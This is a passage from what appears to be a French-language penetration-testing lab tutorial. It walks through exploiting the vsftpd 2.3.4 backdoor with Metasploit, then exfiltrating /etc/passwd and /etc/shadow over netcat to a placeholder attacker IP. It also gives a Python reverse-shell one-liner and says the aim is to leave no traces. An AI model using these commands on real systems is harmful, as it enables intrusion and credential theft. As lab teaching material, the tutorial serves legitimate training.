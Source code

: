 2. Choisir l’exploit (ex. `unix/ftp/vsftpd_234_backdoor`) :

```bash
msf6 > use unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.102
# (si nécessaire) set RPORT 21
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

```

Si l’exploit fonctionne, tu obtiens une **session** (shell). C’est la preuve que la machine est compromise.

**Tips**

- Lis `show options` et `show payloads` : souvent il faut définir `LHOST` (ton IP) pour les payloads reverse.
- `set VERBOSE true` si tu veux plus d’info.
- Si l’exploit échoue, regarde le `nmap` et les logs : version différente, service patché, ou nécessité d’un payload différent.

---

### 4.4) Phase 3 — Post-exploitation & exfiltration (netcat example)

Objectif pédagogique : extraire fichiers sensibles sans laisser de traces sur la cible.

Sur ta machine (attacker / VM), prépare un écouteur netcat pour capter la sortie :

```bash
# sur votre VM (attacker)
nc -lvp 1234 > /home/engineer/setup/hackmeifyoucan/passwd.txt
# l'option -l (listen), -v (verbose), -p port

```

Sur la cible (via la session obtenue) :

```bash
# envoyer /etc/passwd vers ton écouteur
nc -w 3 <VOTRE_IP> 1234 < /etc/passwd

# envoyer /etc/shadow (si lisible)
nc -w 3 <VOTRE_IP> 1234 < /etc/shadow

```

Si `nc` absent ou bloqué, alternative : `cat /etc/passwd` et copier la sortie manuellement depuis la session Metasploit (mais attention traces).

**Remarques pratiques**

- `w 3` force le timeout, utile dans les lab.
- Si la cible n’a pas `nc`, utilise `python -c 'import socket,subprocess,os; s=socket.socket(); s.connect((\"ATK_IP\",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/sh\",\"-i\"])'` — mais évite cela hors lab.

---